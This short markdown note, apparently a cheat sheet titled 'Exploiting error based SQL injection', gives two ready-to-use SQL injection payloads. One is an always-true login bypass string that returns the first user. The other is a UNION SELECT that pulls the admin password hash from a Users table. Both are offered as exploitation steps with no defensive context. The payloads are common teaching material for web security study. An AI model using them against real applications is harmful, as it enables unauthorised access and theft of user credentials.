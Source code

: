 # Exploiting error based SQL injection

### Get the result of first user without knowing any user name with sqli
```
' or '1'='1
```

### Exfiltrate admin password hash
```
' UNION SELECT password,1 from Users where login='admin' -- //
```
